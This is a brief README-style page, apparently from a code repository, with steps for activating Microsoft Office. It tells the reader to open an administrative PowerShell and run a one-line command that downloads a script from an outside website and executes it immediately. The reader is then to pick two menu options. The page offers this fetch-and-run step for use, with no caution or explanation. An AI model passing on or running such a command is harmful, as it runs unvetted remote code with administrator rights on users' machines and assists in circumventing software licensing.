 # Microsoft-office-active-process-2
# 1)Open Administrative Windows powerShell And Type " irm https://get.activated.win | iex "
# 2)Then no 2
# 3)Then no 1
